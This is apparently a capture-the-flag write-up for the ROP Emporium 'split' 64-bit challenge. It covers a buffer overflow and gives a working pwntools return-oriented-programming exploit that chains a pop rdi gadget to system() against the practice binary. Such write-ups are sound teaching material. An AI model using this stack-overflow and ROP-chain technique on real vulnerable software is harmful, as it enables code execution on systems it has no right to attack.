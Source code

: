 ```yaml
---
title: Rop Emporium Split 64 bit (x64)
date: 2025-04-29
categories: [pwn]
tags: [ctf]
---
```



[Rop Emporium Split ](https://ropemporium.com/challenge/split.html)
hint
I'll let you in on a secret: that useful string `"/bin/cat flag.txt"` is still present in this binary, as is a call to `system()`. It's just a case of finding them and chaining them together to make the magic happen.

---

## A little about the binary

```sh
ile split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped

```

- 64 bit
- LSB
- Dynamically linked
- Not stripped

Protections

```sh
checksec --file=split
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		3		split

```

---

## Reversing

![Image1](../assets/images/split1.png)


![Image2](../assets/images/split2.png)


3 functions
- main
- pwnme
- usefulFunction

Vulnerability is in the `pwnme` function.
Buffer overflow.

### Exploitation path
- find offset to instruction pointer 
- find system function address that is called in the usefulFunction
- find usefulString address
- find rop gadget `pop rdi, ret`
- chain it together

```
payload = "A"*offset + pop_rdi + usefulString + system 
```


---

## Find Offset
```python
#!/bin/python3
from pwn import *

elf = context.binary = ELF("./split")
context.log_level = 'debug'

pattern = cyclic(200)

p = process()
p.recvuntil('> ')
p.sendline(pattern)

p.wait()

core = p.corefile
rbp = core.rbp
log.success(f"RBP at crash: {hex(rbp)}")
log.success(f"Offset to RIP: {cyclic_find(rbp) + 8}")

```


Output 
```python
 p.recvuntil('> ')
[DEBUG] Received 0x4c bytes:
    b'split by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Contriving a reason to ask user for data...\n'
    b'> '
[DEBUG] Sent 0xc9 bytes:
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
[*] Process '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/split' stopped with exit code -11 (SIGSEGV) (pid 38005)
[DEBUG] core_pattern: b'core'
[DEBUG] core_uses_pid: False
[DEBUG] interpreter: ''
[DEBUG] Looking for QEMU corefile
[DEBUG] Trying corefile_path: '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/qemu_split_*_38005.core'
[DEBUG] Looking for native corefile
[DEBUG] Checking for corefile (pattern)
[DEBUG] Trying corefile_path: '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/core'
[+] Parsing corefile...: Done
[*] '/tmp/tmpl875kut7'
    Arch:      amd64-64-little
    RIP:       0x400741
    RSP:       0x7fffffffdef8
    Exe:       '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/split' (0x400000)
    Fault:     0x6161616c6161616b
[+] Parsing corefile...: Done
[*] '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/core.38005'
    Arch:      amd64-64-little
    RIP:       0x400741
    RSP:       0x7fffffffdef8
    Exe:       '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/split' (0x400000)
    Fault:     0x6161616c6161616b
[+] RBP at crash: 0x6161616a61616169
[!] cyclic_find() expected an integer argument <= 0xffffffff, you gave 0x6161616a61616169
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
[+] Offset to RIP: 40

```


Offset = 40

## Final script

```python
#!/bin/python3
from pwn import *

elf = context.binary = ELF("./split")
context.log_level = 'debug'
rop  = ROP(elf)

usefulString = elf.symbols['usefulString']
psystem = elf.symbols['usefulFunction' ] + 9 # system function that is called within usefulFunction
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

offset = 40

payload = flat(
    b"A"*offset,
    pop_rdi,
    usefulString,
    psystem
)

p = process()
p.recvuntil('> ')
p.sendline(payload)
p.interactive()

```


